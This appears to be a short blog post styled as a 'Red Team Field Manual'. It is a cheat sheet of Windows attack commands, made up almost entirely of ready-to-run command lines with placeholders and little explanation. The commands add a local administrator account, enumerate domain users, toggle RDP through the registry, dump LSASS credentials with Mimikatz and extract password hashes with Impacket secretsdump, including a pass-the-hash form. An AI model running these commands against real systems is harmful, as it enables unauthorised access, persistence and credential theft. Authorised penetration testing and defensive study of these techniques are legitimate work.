 ```yaml
---
layout: blog
title: Red Team Field Manual
tags: 
comments: true
date: 2022-12-10
---
```


# Red Team Field Manual
<br />
### Create Local User And Add To Administrators Group
    net user <Username> <Password> /add>
    
    net localgroup Administrators <Username> /add   
  
### List Users In Active Directory

    net users /domain

### Enable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Disable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
    
### Lsass Dump via Mimikatz

    privilege::debug
    sekurlsa::minidump file.DMP (If there is a DMP file)
    sekurlsa::logonpasswords full
    
 ### Impacket Secretsdump - DUMP Local User Hashes
 
    python3 secretsdump.py <Domain>/<Domain Username>:<Password>@<IP> (Enter with Domain Creds)
    
    python3 secretsdump.py <Computer_Hostname>/<Local Username>:<Password>@<IP> (Enter with Local Creds)
    
    python3 secretsdump.py <Domain>/<Domain Username>@<IP> -hashes <NTLM Hash> (Enter with NTLM Hash)
    
    python3 secretsdump.py <Computer_Hostname>/<Local Username>@<IP> -hashes <NTLM Hash> (Enter with NTLM Hash)
    
    
    
 

